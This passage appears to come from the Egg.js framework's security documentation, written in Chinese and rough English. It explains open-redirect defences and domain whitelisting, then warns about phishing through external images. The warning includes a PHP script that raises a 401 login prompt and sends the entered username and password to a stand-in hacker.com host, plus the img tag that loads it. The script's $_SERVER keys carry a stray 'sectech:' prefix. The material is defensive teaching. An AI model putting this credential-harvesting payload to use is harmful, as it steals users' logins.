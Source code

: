 ### 防范方式

- If the redirect url can be determined in advance, including the value of the url and parameters, you can configured in the background first. If do redirect, directly preach corresponding index of url, and find corresponding specific url  then redirect through index;
- If the redirect url is not previously determined, but it is generated by server background (not passing by user's parameter), you can make a redirect link, then  sign it;
- if 1 and 2 are not satisfied, url could not determine beforehand and only pass through the front end of the incoming parameters, url must be validated before redirect, to judge whether it within the application authorization whitelist.

框架提供了安全跳转的方法，可以通过配置白名单避免这种风险。

* `ctx.redirect(url)` 如果不在配置的白名单内，则禁止。
* `ctx.unsafeRedirect(url)` 一般不建议使用，明确了解可能带来的风险后使用。

安全方案覆盖了默认的`ctx.redirect`方法，所有的跳转均会经过安全域名的判断。

用户如果使用`ctx.redirect`方法，需要在应用的配置文件中做如下配置：

```js
// config/config.default.js
exports.security = {
  domainWhiteList:['.domain.com'],  // 安全白名单，以 . 开头
};
```

若用户没有配置 `domainWhiteList` 或者 `domainWhiteList`数组内为空，则默认会对所有跳转请求放行，即等同于`ctx.unsafeRedirect(url)`

### 图片钓鱼

如果可以允许用户向网页里插入未经验证的外链图片，这有可能出现钓鱼风险。

比如常见的 `401钓鱼`, 攻击者在访问页面时，页面弹出验证页面让用户输入帐号及密码，当用户输入之后，帐号及密码就存储到了黑客的服务器中。
通常这种情况会出现在`<img src=$url />`中，系统不对`$url`是否在域名白名单内进行校验。

攻击者可以在自己的服务器中构造以下代码：

401.php：作用为弹出 401 窗口，并且记录用户信息。

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
          }
  ?>
```

之后攻击者生成一个图片链接`<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" /> `。

当用户访问时，会弹出信息让用户点击，用户输入的用户名及密码会被黑客的服务器偷偷记录。


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks